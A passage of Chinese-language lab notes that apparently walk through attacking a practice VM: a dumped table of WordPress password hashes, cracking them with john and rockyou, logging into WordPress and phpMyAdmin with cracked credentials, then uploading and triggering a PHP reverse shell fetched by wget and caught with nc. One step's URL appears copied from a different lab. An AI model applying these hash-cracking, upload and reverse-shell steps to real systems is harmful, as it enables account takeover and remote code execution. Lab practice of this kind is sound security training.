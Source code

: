 | kathy      | $P$BZlxAMnC6ON.PYaurLGrhfBi6TjtcA0 |
| tim        | $P$BXDR7dLIJczwfuExJdpQqRsNf.9ueN0 |
| ZOE        | $P$B.gMMKRP11QOdT5m1s9mstAUEDjagu1 |
| Dave       | $P$Bl7/V9Lqvu37jJT.6t4KWmY.v907Hy. |
| Simon      | $P$BLxdiNNRP008kOQ.jE44CjSK/7tEcz0 |
| Abby       | $P$ByZg5mTBpKiLZ5KxhhRe/uqR.48ofs. |
| Vicki      | $P$B85lqQ1Wwl2SqcPOuKDvxaSwodTY131 |
| Pam        | $P$BuLagypsIJdEuzMkf20XyS5bRm00dQ0 |
| pHqghUme   | $P$BBzzy29vkQEUdNIMGnvY/PFhDomnEh/ |
+------------+------------------------------------+

awk拆分需要的信息：https://www.runoob.com/linux/linux-comm-awk.html
awk -F'|' '{print $3}' mysqlpass.txt > pass.txt

john --wordlist=/usr/share/wordlists/rockyou.txt pass.txt
发现：
$P$B7889EMq/erHIuZapMB8GEizebcIy9.:incorrect   ---对应john
incorrect   

或者访问：枚举
https://10.211.55.37:12380/phpmyadmin/
root
plbkac

----------------
10、wordpress后台getshell

https://10.211.55.37:12380/blogblog/wp-login.php
john
incorrect
成功登录！

Plugins-》 add New -》upload Plugin ：存在上传文件


*****后面可以用项目八  四个方法进行拿shell
------------------------------------------------------
方法1：
反弹shell：
cp /usr/share/webshells/php/php-reverse-shell.php .   ----复制phpshell到本文件夹
python -m SimpleHTTPServer 8081   ----开启http服务
http://10.211.55.36/imfadministrator/uploads/bf12807d791f.gif?cmd=wget%20http://10.211.55.19:8081/php-reverse-shell.php
wget下载phpwebshell到uoload目录！

nc -vlp 1234
https://10.211.55.37:12380/blogblog/wp-content/uploads/php-reverse-shell.php  ----访问
成功获得反弹shell！
----------------------
方法2：
weevely  
